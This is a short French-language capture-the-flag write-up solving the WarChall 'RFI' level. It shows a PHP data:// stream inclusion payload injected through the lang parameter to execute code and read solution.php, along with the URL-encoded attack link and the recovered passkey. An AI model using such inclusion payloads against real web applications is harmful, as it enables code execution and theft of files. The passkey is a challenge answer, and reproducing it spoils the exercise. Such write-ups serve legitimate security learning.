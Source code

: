**RFI (Remote File Inclusion)**  est une vulnérabilité de sécurité qui peut survenir dans les applications web en utilisant Data Stream.
Il mentionne l'utilisation de *Data Stream* avec l'exemple suivant : `data://text/plain,<?php echo file_get_contents("solution.php"); ?>`.

Pour notre probleme, il faut voir le contenu de fichier `solution.php`

**Etape à suivre**

1. Allez dans le lien principal de [RFI](https://rfi.warchall.net/)
2. Cliquer sur le logo de langue (choix de langue) => exemple : [RFI langue](https://rfi.warchall.net/index.php?lang=en)
3. Effacer "en" et remplacer par la methode d'attaque Data stream => __data://text/plain,<?php echo`cat solution.php`; ?>__
[lien complet](https://rfi.warchall.net/index.php?lang=data://text/plain,%3C?php%20echo`cat%20solution.php`;%20?%3E)
4. Après, il donne ça : 
````sh
NOTHING HERE????

Warning: Trying to access array offset on value of type int in /home/level/15_live_rfi/www/index.php on line 36

Warning: Trying to access array offset on value of type int in /home/level/15_live_rfi/www/index.php on line 36
````
=> Il suggère que c'est pas là !!!(Nothing here???)

5. Donc, Il faut inspecter ce sitepour voir si la solution cache là (^,^)
   On a trouver qu'il est vraiement là
   
````sh
<!--?php return 'Low_H4NGING_Fruit'; ?-->
````

The passkey is : **Low_H4NGING_Fruit**







